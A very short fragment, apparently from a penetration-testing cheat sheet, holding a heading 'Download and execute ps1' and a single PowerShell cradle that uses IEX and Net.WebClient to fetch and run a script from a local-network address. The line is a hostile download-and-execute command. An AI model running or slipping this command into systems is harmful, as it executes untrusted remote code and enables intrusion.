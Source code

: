 ### Download and execute ps1

```
IEX(New-Object Net.WebClient).downloadString('http://192.168.1.1/blah.ps1')
```
